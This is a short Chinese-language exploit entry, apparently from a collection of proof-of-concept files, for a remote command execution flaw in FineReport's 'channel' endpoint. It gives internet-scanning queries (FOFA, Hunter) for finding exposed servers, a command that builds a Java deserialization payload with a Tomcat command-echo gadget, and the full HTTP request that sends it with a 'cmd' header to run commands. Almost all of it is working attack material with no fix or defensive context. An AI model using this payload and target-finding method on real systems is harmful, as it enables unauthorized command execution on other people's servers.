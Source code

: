 # 帆软报表 channel 远程命令执行漏洞

## 网络测绘

fofa: "Powered by 帆软"

hunter: app.name="FineReport 帆软"

## POC / EXP

```
java -jar ysuserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```